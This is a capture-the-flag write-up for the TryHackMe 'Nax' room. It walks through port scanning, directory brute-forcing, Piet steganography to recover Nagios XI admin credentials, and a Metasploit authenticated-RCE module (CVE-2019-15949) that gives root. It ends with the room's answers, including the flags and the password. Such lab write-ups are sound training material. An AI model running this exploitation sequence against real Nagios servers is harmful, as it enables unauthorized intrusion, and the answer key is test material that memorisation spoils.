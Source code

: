 # Nax
https://tryhackme.com/room/nax

## Enumeration
### Port Scan
`nmap -sC -sV -vv $ip | tee nmap-sc-sv.log`

Port Number | Information
- | - 
22 | SSH: OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
25 | SMTP: Postfix smtpd
80 | HTTP: Apache httpd 2.4.18
389 | LDAP: OpenLDAP 2.2.X - 2.3.X
443 | HTTPS: Apache httpd 2.4.18

### Directory Bruteforce
#### Directories
`gobuster dir -u http://$ip/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -o gobuster-dir.log`  
`gobuster dir -u http://$ip/nagiosxi/ -w /usr/share/wordlists/dirb/common.txt -o gobuster-dir.log -t 64`

Found | Information
- | -
/nagios | Server is running Nagios (Protected by BasicAuth)
/nagiosxi | Server is running Nagios XI (Protected by BasicAuth)

#### Web Page
Web page reads:  
`Welcome to elements.` &  
`Ag - Hg - Ta - Sb - Po - Pd - Hg - Pt - Lr`

I recognize Ag as the shorthand for Gold on the Periodic Table and the name "elements" leads me to continue down this path.

Element | Number
Ag | 47
Hg | 80
Ta | 73
Sb | 51
Po | 84
Pd | 46
Pt | 78
Lr | 103

Order: `47 80 73 51 84 46 80 78 103`

I passed this into cyber chef and it recognized it as Decimal so it converted it to the result: **/PI3T.PNg**

I ran exiftool against the file to find some potential information from it.

`exiftool found/PI3T.PNg`

Copyright : Piet Mondrian, tryhackme 2020

#### Default Credentials?
Google Search: `default nagios xi admin credentials`
nagiosadmin:PASSW0RD

Tested default credentials on /nagios Basic Auth which failed, which means the default password may have been changed.

#### Piet
I looked up "Piet Steganography" on Google and found a site that decodes it: https://www.bertnase.de/npiet/npiet-execute.php

I uploaded the image found and the output was the following:

`nagiosadmin%n3p3UQ&9BjLp4$7uhWdY`

"nagiosadmin" matches the username that I was expecting therefore I assumed that % was the separator.

Data | Contents
- | -
Username | nagiosadmin
Password | n3p3UQ&9BjLp4$7uhWdY

#### Nagios?
After logging into /nagios I have found that the site is running Nagios and not Nagios XI therefore I navigate to /nagiosxi which was also found by gobuster and used the same credentials to log in there.

#### Known Vulnerabilities
The footer of Nagios XI contained the version number which was `5.5.6`

I checked this using searchsploit:
`searchsploit Nagios XI`

I found the following:
**Nagios XI - Authenticated Remote Command Execution (Metasploit) | linux/remote/48191.rb**

I downloaded this using `searchsploit -p linux/remote/48191.rb`, exported it to the found folder as exploit.rb and checked the information within the script for the CVE number: CVE-2019-15949

#### Metasploit
I launched Metasploit as the exploit contained "Metasploit" in the name
`msfconsole -q`

`search CVE-2019-15949`: exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce

`use exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce`

I set the following options

Option | Data
- | -
PASSWORD | n3p3UQ&9BjLp4$7uhWdY
RHOST | target ip
LHOST | THM VPN IP

`exploit`

`getuid` - I'm root

#### Post Exploitation
I checked a few things such as the users on the system by running `ls /home` and found a user called **galand** with a file called /home/galand/user.txt

As I'm root I also checked the /root directory and found the root.txt flag: /root/root.txt

## What hidden file did you find?
**Answer: /PI3T.PNg**

## Who is the creator of the file?
**Answer: Piet Mondrian**

## What is the username you found?
**Answer: nagiosadmin**

## What is the password you found?
**Answer: n3p3UQ&9BjLp4$7uhWdY**

## What is the CVE number for this vulnerability?
**Answer: CVE-2019-15949**

## What is the full path for the exploitation module within Metasploit?
**Answer: exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce**

## Compromise the machine and locate user.txt
**Answer: THM{84b17add1d72a9f2e99c33bc568ae0f1}**

## Locate root.txt
**Answer: THM{c89b2e39c83067503a6508b21ed6e962}**